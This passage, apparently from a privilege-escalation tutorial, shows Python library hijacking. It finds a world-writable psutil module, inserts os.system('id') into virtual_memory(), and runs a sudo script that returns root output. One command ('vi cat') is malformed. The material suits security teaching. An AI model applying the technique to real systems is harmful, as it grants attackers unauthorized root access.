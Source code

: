 ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

3) Check module contents

cat /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...


4) Module Contents - Hijacking : insert malicious code at the beginning

vi cat /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...

5) Privilege Escalation

sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%

## Library Path
